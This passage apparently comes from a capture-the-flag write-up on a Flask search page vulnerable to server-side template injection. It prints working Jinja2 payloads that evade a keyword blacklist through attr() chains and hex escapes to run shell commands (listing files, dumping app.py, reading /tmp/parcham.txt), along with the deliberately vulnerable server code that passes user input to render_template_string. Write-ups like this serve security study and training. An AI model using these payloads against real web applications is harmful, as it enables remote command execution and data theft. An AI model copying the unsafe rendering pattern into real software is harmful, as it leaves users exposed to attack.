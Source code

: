 ```{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("ls -a")|attr("read")()}}
```

## Dump Server Code 
By searching below expression: 

```
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("cat app\x2epy")|attr("read")()}}  
We will obtain the server code:  
```

We can get the source code of website:

```
from flask import Flask, render_template_string, render_template, request 
import os, string, random 
app = Flask(__name__) 
inputfile = open("/tmp/parcham.txt", "r") #parcham.txt contains parcham 
parcham=inputfile.read(); 
def getrandom(): return ''.join(random.choice(string.ascii_uppercase + string.digits) for _ in range(43)) key=getrandom() f = open("_", "w") f.write(key) f.close() app.config['parcham'] = ''.join(chr(ord(parcham[i]) ^ ord(key[len(parcham)-i-1])) for i in range(len(parcham))) @app.route('/search', methods =['POST']) def search(): try: search_something = request.values.get('search_something') except Exception as e: print(e) return 'exception 1: something went wrong' try: if '.' in search_something or '_' in search_something or "'" in search_something or 'config' in search_something or '/' in search_something or 'tmp' in search_something or '[' in search_something or ']' in search_something or 'join' in search_something: return render_template_string("oh Nooo! your search expression is in my filter list") elif 'Pizza' in search_something or 'Pasta' in search_something: return render_template_string(" %s is a delicious food &#128525;" % search_something) else: return render_template_string("I'm only a baby search engine. I don't know what %s mean. Ask me about Pizza or Pasta &#128517;" % search_something) except Exception as e: print(e) return 'exception 2: something went wrong' @app.route('/', methods=['GET']) def index(): return render_template('index.html') if __name__ == '__main__': app.run(host='0.0.0.0', port=8080) 
```

Now considering obtained source code, we can obtain the parcham in two way:
1. Reading it from `config` which is in black list but we can use `self.__dict__` insteadly. I think this is what you expect us to do.
   ```
   ...
   app.config['parcham'] = ''.join(chr(ord(parcham[i]) ^ ord(key[len(parcham)-i-1])) for i in range(len(parcham)))
   ...
   ```
2. Read from file system(`/tmp/parcham.txt`) which is my choice but probably not expected by you!
   

## Parcham
Trying to read `/tmp/parcham.txt` by entering search input as:

```
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("cat \x2f\x74\x6d\x70\x2fparcham\x2etxt")|attr("read")()}}
```


[jinjaFilters]: https://jinja.palletsprojects.com/en/2.10.x/templates/#list-of-builtin-filters
[mainFlask]: https://flask.palletsprojects.com/en/2.0.x/
[requestFlask]: https://flask.palletsprojects.com/en/2.0.x/api/#flask.request
[flaskApplication]: https://flask.palletsprojects.com/en/2.0.x/api/#flask.Request.application
[charToHex]: https://www.rapidtables.com/convert/number/ascii-to-hex.html
[dumpPart2]: ./part1/dumpPart2/
[code]: ./part2/app.js
[expressURLE]: https://expressjs.com/en/api.html#express.urlencoded
[qs]: https://www.npmjs.com/package/qs#readme
[prototypePollution]: https://www.neuralegion.com/blog/prototype-pollution/
[npmmysql]: https://www.npmjs.com/package/mysql
[npmmysqlescape]: https://www.npmjs.com/package/mysql#escaping-query-values
[mySQLBool]: https://www.mysqltutorial.org/mysql-boolean/
[mySQLChainedComp]: https://stackoverflow.com/q/28952960/10813146
[mySQLConversion]: https://dev.mysql.com/doc/refman/8.0/en/type-conversion.html
[shellScript]: ./part1/exploit.sh
[shellScript2]: ./part2/exploit.sh
[record]: https://mega.nz/file/dlUiBLjJ#TgLrkoDU1UU6GLUusC8uSneww1ynFGkmHd3rvIiysGc